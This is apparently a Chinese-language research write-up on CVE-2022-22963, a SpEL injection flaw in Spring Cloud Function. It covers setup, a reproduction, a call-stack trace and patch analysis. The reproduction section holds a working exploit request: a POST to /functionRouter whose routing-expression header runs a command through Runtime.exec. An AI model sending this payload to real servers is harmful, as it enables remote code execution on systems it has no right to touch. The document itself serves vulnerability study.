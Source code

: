 # 前言

Spring Cloud Function 是一个具有以下高级目标的项目：

- 通过函数促进业务逻辑的实现，可以将函数设置为HTTP端点。
- 将业务逻辑的开发生命周期与任何特定的运行时目标分离，以便相同的代码可以作为 Web 端点、流处理器或任务运行。
- 支持跨无服务器提供商的统一编程模型，以及独立运行（本地或在 PaaS 中）的能力。
- 在无服务器提供程序上启用 Spring Boot 功能（自动配置、依赖注入、指标

可以直接通过HTTP请求与单个的函数进行交互，同时为spring.cloud.function.definition或者spring.cloud.function.routing-expression参数提供您要调用的函数的名称

在https://www.cnblogs.com/9eek/archive/2022/04/07/16113603.html可以看到演示

而spring.cloud.function.routing-expression允许使用spel表达式

漏洞编号：CVE-2022-22963

# 环境搭建

漏洞影响版本：3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2

spring项目

![image-20220409131432726](images/1.png)

![image-20220409131758325](images/2.png)

我使用的是3.2.2的版本

# 漏洞复现

直接启动新创建的spring项目，不用做任何修改

直接抓包修改

```
POST /functionRouter HTTP/1.1
Host: 127.0.0.1:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("calc")
Content-Length: 0


```

![image-20220409132819051](images/3.png)

# 漏洞分析

参考了一些博客和官方的commit记录，最后的漏洞触发点在RoutingFunction的functionFromExpression中

![image-20220410121547957](images/4.png)

最后解析的是传入的第一个参数routingExpression，看一下可控不

找一找哪里对这个函数进行了调用，可以找到一个route方法而且在这个类里面

有好几个地方都调用了

![image-20220410123646946](images/5.png)

先从复现的调用栈来开始吧

![image-20220410121432294](images/6.png)

入口点在FunctionController的form方法里面

![image-20220410121623155](images/7.png)跟进这里的processRequest

![image-20220410121837124](images/8.png)

其实这里wrapper的headers的内容就是我们http数据包的一些请求头的内容构成的一个数组

接下来的会通过MessageBuilder.withPayload(argument).copyHeaders(headers.toSingleValueMap()).build()来请求头的信息编译成Message放入inputMessage中，最在放入input参数中，通过function.apply方法调用

跟进这里的apply方法

![image-20220410122601641](images/9.png)

接着调用doApply方法

![image-20220410122756742](images/10.png)

这里的this.target指向了RoutingFunction类，跟进apply方法来到RoutingFunction的apply方法

![image-20220410122857003](images/11.png)

跟进来到前面提到的route方法，向下步进

如果请求头存在spring.cloud.function.routing-expression字段，则进入下面的代码区域

![image-20220410124723821](images/12.png)

```
function = this.functionFromExpression((String)message.getHeaders().get("spring.cloud.function.routing-expression"), message);
```

调用了漏洞触发函数functionFromExpression并传入两个参数，第一个是请求头中的spring.cloud.function.routing-expression的值，第二个是整个message的值

跟进functionFromExpression

![image-20220410125131739](images/13.png)

对spring.cloud.function.routing-expression的值进行spel表达式解析，最后看一下getValue中this.evalContext的值

![image-20220410125223233](images/14.png)

是StandardEvaluationContext，那就没问题了，可以解析类，最后达到spel表达式注入

# 补丁分析

补丁参考地址https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f

![image-20220410125926438](images/15.png)



![image-20220410130007779](images/16.png)

和大多数Spel漏洞的修复一样，都是引入了SimpleEvaluationContext来修补，这里的headerEvalContext就是使用SimpleEvaluationContext来解析的

# 写在最后

这个漏洞的理解其实并不难，和Spring Cloud Gateway一样是一个spel注入漏洞，更多的理解我觉得是对组件的一个理解，像Spring Cloud Gateway增加路由刷新路由的操作，然后会去调用什么函数走到最后spel注入的代码块，这个漏洞也一样，要去了解动态路由functionRouter，看过一些文章，他们最开始的调用栈并不是form方法，也可能也是组件版本的一些影响，但是最后都是走到了RoutingFunction的apply方法





参考链接

https://www.cnblogs.com/wh4am1/p/16062306.html

https://www.anquanke.com/post/id/271167#h2-1

https://blog.csdn.net/weixin_44112065/article/details/123965187

https://www.cnblogs.com/9eek/archive/2022/04/07/16113603.html
